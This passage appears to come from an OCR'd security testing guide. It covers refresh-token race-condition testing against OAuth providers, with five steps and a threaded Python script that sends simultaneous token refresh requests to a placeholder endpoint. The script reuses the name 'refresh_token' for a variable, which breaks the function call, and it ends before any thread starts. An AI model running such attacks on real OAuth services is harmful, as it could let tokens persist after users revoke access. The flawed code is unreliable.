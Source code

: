     2. **Refresh token exploitation**:
       - Step 1: Obtain a valid refresh token
       - Step 2: Prepare multiple token refresh requests
       - Step 3: Send refresh requests simultaneously
       - Step 4: Check if multiple new access tokens are issued
       - Step 5: Verify if tokens remain valid even after user revokes application access
       - Example Python script for refresh token exploitation:
       ```python
       import requests
       import threading
       
       def refresh_token(refresh_token, client_id, client_secret, thread_id):
           url = "https://oauth-provider.com/token"
           data = {
               "grant_type": "refresh_token",
               "refresh_token": refresh_token,
               "client_id": client_id,
               "client_secret": client_secret
           }
           
           response = requests.post(url, data=data)
           print(f"Thread {thread_id} status: {response.status_code}")
           
           if response.status_code == 200:
               try:
                   token_data = response.json()
                   print(f"Thread {thread_id} received new tokens:")
                   print(f"Access token: {token_data.get('access_token')[:10]}...")
                   print(f"Refresh token: {token_data.get('refresh_token')[:10]}...")
                   return token_data
               except:
                   print(f"Thread {thread_id} failed to parse JSON response")
           
           return None
       
       # OAuth app credentials
       refresh_token = "valid_refresh_token_here"
       client_id = "your_client_id"
       client_secret = "your_client_secret"
       
       # Number of parallel refresh attempts
       num_attempts = 5
       
       # Create threads for parallel requests
       threads = []
       results = []
       
       for i in range(num_attempts):
           thread = threading.Thread(
               target=lambda i=i: results.append(refresh_token(refresh_token, client_id, client_secret, i+1)),
               args=()
           )
           threads.append(thread)
       